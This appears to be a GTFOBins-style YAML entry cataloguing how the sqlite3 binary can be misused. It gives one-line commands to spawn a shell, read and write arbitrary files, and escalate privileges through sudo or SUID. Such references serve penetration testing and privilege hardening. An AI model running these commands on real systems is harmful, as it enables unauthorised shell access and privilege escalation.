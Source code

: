 ```yaml
---
functions:
  execute-interactive:
    - code: sqlite3 /dev/null '.shell /bin/sh'
  file-write:
    - code: |
        LFILE=file_to_write
        sqlite3 /dev/null -cmd ".output $LFILE" 'select "DATA";'
  file-read:
    - code: |
        LFILE=file_to_read
        sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
  sudo-enabled:
    - code: sudo sqlite3 /dev/null '.shell /bin/sh'
  suid-limited:
    - code: "./sqlite3 /dev/null '.shell /bin/sh'"
---
```

